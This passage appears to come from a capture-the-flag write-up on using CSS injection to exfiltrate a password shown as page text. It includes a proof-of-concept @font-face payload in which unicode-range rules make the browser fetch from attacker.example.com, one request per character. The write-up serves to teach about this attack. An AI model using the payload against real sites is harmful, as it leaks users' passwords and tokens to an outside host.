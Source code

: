 First idea we have with these informations is ``CSS Exfiltration``, because we can inject CSS as we want and we have to exfiltrate data.. What a brainstorm!

If we do some research, we can see that [classical CSS Exfiltration](https://infosecwriteups.com/exfiltration-via-css-injection-4e999f63097d) allows to leak elements attributes like CSRF tokens.

### The problem

If we go deeper into the code, we can see that our password is not in an element attribute:

```html
<div class="col-md-4 pb-4">
	<div class="toast show w-75 mx-auto">
		<div class="toast-header">
			<a href="passwords/542"><i class="fas fa-trash lp-2"></i></a>&nbsp;&nbsp;
			<span class="ml-4"><strong>This website</strong></span>
		</div>
		<div id="p1" class="toast-body password">P4sswordpass</div>
	</div>
</div>
```

So we have to find a better way to exfiltrate data than leaking attributes.

### First solution

After some research, we can find a [paper](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) which explains a cool way to exfiltrate element content.

```html
<style>
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?A); /* fetched */
 unicode-range:U+0041; /* Unicode for A */
}
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?B); /* fetched */
 unicode-range:U+0042; /* Unicode for B */
}
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?C); /* not fetched */
 unicode-range:U+0043; /* Unicode for C */
}
#sensitive-information{
 font-family:poc;
}
</style>
<p id="sensitive-information">AB</p>
```

To understand this payload we have to know a little about CSS: it is possible to specify a custom font with ``@font-face``. There are 2 required parameters, ``font-family`` which specifies the name of the font and ``src`` which specifies the source of the font. Here there is an optional parameter: ``unicode-range``. This parameter specifies for which character the font will be used.
